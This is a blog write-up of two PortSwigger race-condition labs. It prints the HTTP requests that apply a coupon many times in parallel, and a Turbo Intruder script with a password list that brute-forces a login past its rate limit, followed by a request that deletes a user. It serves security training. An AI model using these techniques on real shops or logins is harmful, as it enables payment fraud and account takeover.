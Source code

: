 ```yaml
---
layout: post
title:  Race Conditions Labs
date:   2024-07-17 12:34:11 +0100
categories: race-conditions
post_id: 6
---
```


Solutions to the race conditions labs by [Portswigger](https://portswigger.net/web-security/race-conditions)

### [Lab 1: Limit overrun race conditions](https://portswigger.net/web-security/race-conditions/lab-race-conditions-limit-overrun)

### Lab 1 Task

***This lab's purchasing flow contains a race condition that enables you to purchase items for an unintended price.***

***To solve the lab, successfully purchase a Lightweight L33t Leather Jacket.***

**You can log in to your account with the following credentials: *wiener:peter*.**

### Lab 1 Solution

We start out with $50 in our account and the *Lightweight L33t Leather Jacket* costs $1337.00. A promo code **PROMO20** has been provided which gives a 20% discount on the purchase. The following request shows applying the promo code to the purchase:

```http
POST /cart/coupon HTTP/2
Host: 0ab300960360e780855058490095003b.web-security-academy.net
Cookie: session=bTGkDicqOTIfAhgVb6vXVlWapEox7wr4
Content-Length: 52
Cache-Control: max-age=0
Sec-Ch-Ua: "Not/A)Brand";v="8", "Chromium";v="126"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB
Upgrade-Insecure-Requests: 1
Origin: https://0ab300960360e780855058490095003b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ab300960360e780855058490095003b.web-security-academy.net/cart
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

csrf=NPSU5rNspzOT2VWiQpLcrAIjbpojcVJK&coupon=PROMO20
```

The server responds as shown below:

```http
HTTP/2 302 Found
Location: /cart
X-Frame-Options: SAMEORIGIN
Content-Length: 14

Coupon applied
```

the promo code has been applied successfully, but it's just 20% off the original price, and we only have $50 in our account. We need to find a way to purchase the jacket for $50 or less. The obvious way is if we can repeatedly use the promo code to get the price down to $50 or less, but the server will not allow us to apply the promo code more than once. We get the following response when we try to apply the promo code again:

```http
HTTP/2 302 Found
Location: /cart?couponError=COUPON_ALREADY_APPLIED&coupon=PROMO20
X-Frame-Options: SAMEORIGIN
Content-Length: 22

Coupon already applied
```

But what if we can make the above request multiple times in parallel? We could make the server apply the 20% off multiple times before it can check if the promo code has been applied before. We utilize the [single packet attack](https://portswigger.net/research/smashing-the-state-machine) by James Kettle to make the request multiple times in parallel. Lucky for us Burp repeater already has this feature built-in. All we have to do is create multiple repeater tabs and add them to the same tab group, select the single packet attack option and send group. The image below shows the setup:

![lab1](https://ethic41.github.io/assets/images/posts/race-conditions-labs/2024-07-17_13-48_lab1_repeater.png)

We get response from the that the promo code has been applied for all the requests(you may have to try this multiple times to get the desired result). Going back to the cart page we see that the price of the jacket has been reduced to less than $50. We can now proceed to purchase the jacket and solve the lab. The image below shows the cart page:

![lab1](https://ethic41.github.io/assets/images/posts/race-conditions-labs/2024-07-17_12-06_lab1_solved.png)

Lab 1 solved.

### [Lab 2: Bypassing rate limits via race conditions](https://portswigger.net/web-security/race-conditions/lab-race-conditions-bypassing-rate-limits)

### Lab 2 Task

***This lab's login mechanism uses rate limiting to defend against brute-force attacks. However, this can be bypassed due to a race condition.***

***To solve the lab:***

**1. Work out how to exploit the race condition to bypass the rate limit.**
**2. Successfully brute-force the password for the user carlos.**
**3. Log in and access the admin panel.**
**4. Delete the user carlos.**

***You can log in to your account with the following credentials: wiener:peter.***

### Lab 2 Solution

A rate limit has been set on the login page, it kicks in after 3 failed login attempts. Below is the request to the login page:

```http
POST /login HTTP/2
Host: 0ae800fa03430b5683a273c5002a00ba.web-security-academy.net
Cookie: session=7nBqtrR6NbeqBYOEmGKAKHQohEkvLfDw
Content-Length: 69
Cache-Control: max-age=0
Sec-Ch-Ua: "Not/A)Brand";v="8", "Chromium";v="126"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB
Upgrade-Insecure-Requests: 1
Origin: https://0ae800fa03430b5683a273c5002a00ba.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ae800fa03430b5683a273c5002a00ba.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

csrf=I8L3M3lu0dkyAh7bQ1DxfkKJ22bn6DVG&username=carlos&password=123321
```

The response below shows that rate limit has been reached:

![lab2](https://ethic41.github.io/assets/images/posts/race-conditions-labs/2024-07-18_01-23_lab2_rate-limit.png)

Luckily this lab is similar to the previous one, we've also been provided with a wordlist to brute force the password. We just need to send a large number of requests in parallel using the single packet attack. This is where turbo intruder comes in handy. We can use turbo intruder to send multiple requests in parallel. Below is the code to send the requests:

```python
def queueRequests(target, wordlists):

    # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
    # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
    # for more information, check out https://portswigger.net/research/smashing-the-state-machine
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )
    wordlists = ["123123", "abc123", "football", "monkey", "letmein", "shadow", "master", "666666", "qwertyuiop", "123321", "mustang", "123456", "password",
                "12345678", "qwerty", "123456789", "12345", "1234", "111111", "1234567", "dragon", "1234567890", "michael", "x654321", "superman", "1qaz2wsx", 
                "baseball", "7777777", "121212", "000000"]

    # the 'gate' argument withholds part of each request until openGate is invoked
    # if you see a negative timestamp, the server responded before the request was complete
    for word in wordlists:
        engine.queue(target.req, word, gate='race1')

    # once every 'race1' tagged request has been queued
    # invoke engine.openGate() to send them in sync
    engine.openGate('race1')


def handleResponse(req, interesting):
    table.add(req)
```

Starting the attack the following response is obtained:

![lab2](https://ethic41.github.io/assets/images/posts/race-conditions-labs/2024-07-18_01-42_lab2_attack-table.png)

By sorting the table by the response status code we notice a single request with a 302 status code, this is the request that successfully logged in. We can now proceed to delete the user *carlos* and solve the lab. The image below shows the admin panel:

![lab2](https://ethic41.github.io/assets/images/posts/race-conditions-labs/2024-07-18_01-46_lab2_admin-panel.png)

Now we can delete the user *carlos* and solve the lab.

![lab2](https://ethic41.github.io/assets/images/posts/race-conditions-labs/2024-07-18_01-48_lab2_users.png)

Below is the request to delete the user *carlos*:

```http
GET /admin/delete?username=carlos HTTP/2
Host: 0ae800fa03430b5683a273c5002a00ba.web-security-academy.net
Cookie: session=U06EP2vErkQsawlzICNVHhAADJPO2BbC
Sec-Ch-Ua: "Not/A)Brand";v="8", "Chromium";v="126"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ae800fa03430b5683a273c5002a00ba.web-security-academy.net/admin
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

```

Response image below:

![lab2](https://ethic41.github.io/assets/images/posts/race-conditions-labs/2024-07-18_01-51_lab2_solved.png)

Lab 2 solved.

